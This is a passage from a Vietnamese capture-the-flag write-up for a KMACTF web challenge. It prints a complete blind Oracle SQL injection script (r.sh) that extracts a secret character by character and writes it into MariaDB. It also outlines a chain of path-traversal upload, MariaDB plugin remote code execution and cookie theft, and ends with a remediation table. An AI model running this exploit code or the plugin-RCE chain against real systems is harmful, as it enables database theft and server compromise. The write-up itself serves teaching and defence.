    "ON DUPLICATE KEY UPDATE email=VALUES(email)"
) % safe_flag
```

Nội dung file `r.sh` như sau:

```bash
#!/bin/sh
/usr/bin/python3 - <<'PY'
import string
import subprocess
from urllib.error import HTTPError
from urllib.parse import urlencode
from urllib.request import urlopen

BASE = 'http://eren-app:3000/api/faction/scan'
CHARSET = string.ascii_letters + string.digits + '_{}-!@#$%^&*().,:;[]% '
flag = 'KMACTF{'

def sql_quote(s):
    return "'" + s.replace("'", "''") + "'"

def escape_like_prefix(s):
    return s.replace('!', '!!').replace('%', '!%').replace('_', '!_')

def check_prefix(prefix):
    parts = []
    for ch in prefix:
        if ch in "!%_":
            parts.append("CHR(33)")
        parts.append("CHR(%d)" % ord(ch))
    pattern = "||".join(parts + ["'%'"])
    condition = (
        "(SELECT/**/COUNT(1)/**/FROM/**/FLAG_FACTION"
        "/**/WHERE/**/SECRET/**/LIKE/**/" + pattern +
        "/**/ESCAPE/**/CHR(33))>0"
    )
    field = (
        'CREATED_AT"||CASE/**/WHEN/**/' + condition +
        "/**/THEN/**/'A'/**/ELSE/**/TO_CHAR(TO_NUMBER('x'))/**/END||" +
        '"CREATED_AT'
    )
    url = BASE + '?' + urlencode({'field': field})
    try:
        body = urlopen(url, timeout=8).read().decode('utf-8', 'replace')
    except HTTPError as e:
        if e.code == 500:
            return False
        open('/tmp/eren_flag_status.txt', 'a').write('http_error=%r\n' % (e,))
        return False
    except Exception as e:
        open('/tmp/eren_flag_status.txt', 'a').write('request_error=%r\n' % (e,))
        return False
    return '"success":true' in body

open('/tmp/eren_flag_status.txt', 'w').write('start\n')
if not check_prefix(flag):
    open('/tmp/eren_flag_status.txt', 'a').write('bad_initial_prefix=' + flag + '\n')
else:
    for _ in range(120):
        if flag.endswith('}'):
            break
        for ch in CHARSET:
            if check_prefix(flag + ch):
                flag += ch
                open('/tmp/eren_flag_status.txt', 'a').write('prefix=' + flag + '\n')
                break
        else:
            open('/tmp/eren_flag_status.txt', 'a').write('no_char_after=' + flag + '\n')
            break

safe_flag = flag.replace("'", "''")
sql = "INSERT INTO user (username,email) VALUES ('eren_flag','%s') ON DUPLICATE KEY UPDATE email=VALUES(email)" % safe_flag
subprocess.run(['/usr/bin/mysql', '-h127.0.0.1', '-uuser', '-ppassword', 'mydb', '-e', sql], stdout=subprocess.PIPE, stderr=subprocess.STDOUT)
open('/tmp/eren_flag_status.txt', 'a').write('final=' + flag + '\n')
PY
```

Các bước thực hiện lấy flag 2:

1. Upload `rpl.so` vào `/home/ctf/lib/plugins/rpl.so`.
2. Upload `r.sh` vào `/home/ctf/lib/plugins/r.sh`.
3. Trigger `/search` với `INSTALL SONAME 'rpl'`.
4. Chờ script nội bộ brute-force flag Oracle.
5. Search lại MariaDB để tìm chuỗi `KMACTF{...}`.


## V. Thảo luận

### Vì sao không brute-force trực tiếp qua public nginx?

`nginx.conf` có rate limit:

```nginx
limit_req_zone $binary_remote_addr zone=mikasa_limit:10m rate=10r/s;
limit_req zone=mikasa_limit burst=20 nodelay;
```

Rate limit này không phải blocker tuyệt đối, nhưng blind SQLi ký tự theo ký tự qua public endpoint sẽ chậm và dễ lỗi. Hướng RCE trong `mikasa` tốt hơn vì script chạy nội bộ, gọi thẳng `eren-app`, không đi qua nginx public.

### Vì sao cần ghi kết quả về MariaDB?

Sau khi RCE trong `mikasa`, ta không có shell tương tác trực tiếp từ ngoài. Script nội bộ cần một kênh trả kết quả. Vì `/search` public đọc bảng `user`, cách đơn giản là insert flag vào `user.email` với username dễ tìm như `eren_flag`, rồi query lại `/search`.

### Lưu ý về payload Oracle

Không nên dùng payload có dấu phẩy như `SUBSTR(SECRET,1,1)` trong `ORDER BY`, vì connector có thể tách order item theo dấu phẩy. Dùng `LIKE prefix%` kết hợp `CHR(...)` giúp payload ổn định hơn.

### Cách vá

| Lỗ hổng | Cách vá |
|---|---|
| Stored XSS | Không render dữ liệu không tin cậy bằng `innerHTML`; dùng `textContent` hoặc sanitizer như DOMPurify |
| Cookie stealing | Đặt cookie nhạy cảm với `HttpOnly: true`, `SameSite`, `Secure` khi dùng HTTPS |
| WASM memory overwrite | Không hardcode offset; kiểm tra độ dài input trước khi ghi memory |
| Upload traversal | Normalize trước rồi validate; sau khi resolve path, kiểm tra `target.startsWith(base)` |
| SQL injection | Dùng `PreparedStatement`, tắt `allowMultiQueries` nếu không cần |
| MariaDB plugin RCE | Không cho DB user quyền install plugin; khóa `plugin_dir` read-only |
| Oracle ORDER BY SQLi | Whitelist field sort hợp lệ thay vì nhận chuỗi tự do |

## Flag

> Flag 1: ***KMACTF{FLAG1}***

> Flag 2: ***KMACTF{cHatGpT_c0d3X_fl4g_2}***
